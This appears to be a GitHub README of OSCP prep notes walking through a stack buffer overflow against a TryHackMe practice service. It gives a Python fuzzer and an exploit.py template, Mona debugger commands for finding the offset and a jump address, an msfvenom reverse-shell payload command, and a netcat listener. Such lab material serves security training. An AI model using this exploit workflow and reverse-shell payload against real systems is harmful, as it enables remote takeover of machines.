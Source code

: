 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

* Step 1: Ensure Mona is installed in Immunity Debugger

* Step 2: Launch Immunity Debugger, open relevant application, and run the application

* Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

* Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
* Step 5: Create exploit.py skeleton:
 
 Example exploit.py :
 
 ```
 import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```
  
* Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

* Step 7: Paste output from Step 6 into payload variable of exploit.py
  
* Step 8: Restart application in Immunity, Run exploit.py from attack machine
 
* Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
 *PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*
 

* Step 10: Set offset variable of exploit.py as the offset found in Step 9
 
* Step 11: Set retn variable to "BBBB" in exploit.py

* Step 12: Restart application in Immunity; Run exploit.py
  
* Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
* Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Step 15: Run Bad Characters Script

* Step 16: Paste Bad Characters output into payload variable of exploit.py

* Step 17: Re-open application in Immunity but do not run it

* Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

* Step 19: Start application in Immunity; Run exploit.py on attack machine

* Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

* Step 21: Remove first bad character in the list generated in Step 20 from payload variable in exploit.py

* Step 22: Reopen Application but do not run it

* Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

* Step 24: Repeat steps 18-21 until Step 19 says "Unmodified" in the Immunity logs (These are the bad characters)

* Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb "[BAD-CHARACTERS]"
```
*Most likley, no output will be generated. View Logs in Immunity to see jump point*

* Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

* Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```
*Remove quotation marks "" and Wrap output/payload variable in parentheses ()*


* Step 28: Paste generated payload into payload variable of exploit.py

* Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

* Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

* Step 31: Restart application in Immunity, Run it, and run exploit.py from attack machine

* Step 32: Check listener, it should have a shell

## Reference

* https://tryhackme.com/room/bufferoverflowprep#
